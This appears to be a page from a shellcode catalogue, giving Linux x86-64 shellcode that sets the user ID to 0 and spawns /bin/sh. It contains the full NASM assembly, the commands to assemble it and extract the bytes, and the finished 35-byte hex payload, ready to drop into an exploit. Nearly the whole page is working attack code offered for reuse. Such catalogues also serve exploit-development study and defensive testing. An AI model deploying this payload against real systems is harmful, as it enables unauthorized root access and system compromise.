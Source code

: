 ```yaml
---
layout: default
title: setuid(0); execve("/bin/sh", NULL, 0) - Set UID to 0 and spawn shell
permalink: /shellcode/asm-13.html
os: Linux
arch: Intel x86-64
length: 35
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor rdi, rdi			; null rdi (0)
	mov al, 0x69			; move setuid syscall number into al (rax)
	syscall				; call setuid

	xor rdx, rdx			; null rdx

	push rdx			; push null terminator
	mov rax, 0x68732f2f6e69622f	; move "/bin//sh" into rax
	push rax			; push "/bin//sh"
	mov rdi, rsp			; move pointer to "/bin//sh" into rdi

	push rdx			; push null terminator
	push rdi			; push pointer to "/bin//sh"
	mov rsi, rsp			; moves pointer to array {"/bin//sh", 0} into rsi

	push 0x3b			; push execve syscall number
	pop rax				; pop execve syscall number into rax
	syscall				; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf64 -o code.o code.asm

# Link
ld -m elf_x86_64 -s -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05
```